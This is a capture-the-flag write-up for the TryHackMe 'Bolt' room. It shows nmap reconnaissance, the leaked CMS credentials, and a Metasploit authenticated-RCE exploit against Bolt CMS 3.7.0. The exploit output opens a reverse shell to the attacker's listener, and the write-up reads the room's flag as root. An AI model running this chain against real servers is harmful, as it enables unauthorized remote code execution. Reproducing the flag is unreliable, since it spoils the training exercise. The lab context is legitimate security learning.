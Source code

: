 # Bolt Room WriteUp

### What port number has a web server with a CMS running?
- run nmap comman ``sudo nmap -sV -sC -oN nmap/initials 10.10.250.232``

- result: [nmap result]()
### What is the username we can find in the CMS?
- bolt

### What is the password we can find for the username?
- boltadmin123

### What version of the CMS is installed on the server? (Ex: Name 1.1.1)
- Bolt 3.7.1

### There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?
- Do a search on Bolt 3.7.1 cve in exploit-db
- The result will tell us that the vulenrability was on version 3.7.0 which is vulnerable to Authenticated Remote Code Execution
- The EDB-ID is **48296**

### Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)
- use msfconsole
- run ``search Bolt``
- the result will be like this:

```bash
msf6 > search Bolt

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload
```
- ``use 0``
- Set all needed part to perform exploit such as username, password, Local Host, Remote Host, and Port
- do ``run``
- It will give us access to the server as root user
- find flag
```bash
[*] Started reverse TCP handler on 10.18.108.222:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "fbezcg".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file tjbwrrtrg.php.
[+] Deleted file rdlqdqjfzgqx.php.
[+] Used token 41f4b87a252d20b7a804a4737c to create ndawwgfqe.php.
[*] Attempting to execute the payload via "/files/ndawwgfqe.php?fbezcg=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 1 opened (10.18.108.222:4444 -> 10.10.250.232:45522) at 2023-04-28 23:25:04 +0700
[+] Deleted file ndawwgfqe.php.
[+] Reverted user profile back to original state.

ls
index.html
pwd
/home/bolt/public/files
whoami
root
cd ../
ls
bolt-public
extensions
files
index.php
theme
thumbs
cd ../
ls  
app
composer.json
composer.lock
cron
extensions
index.php
public
README.md
reboot.sh
src
vendor
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
exit
```

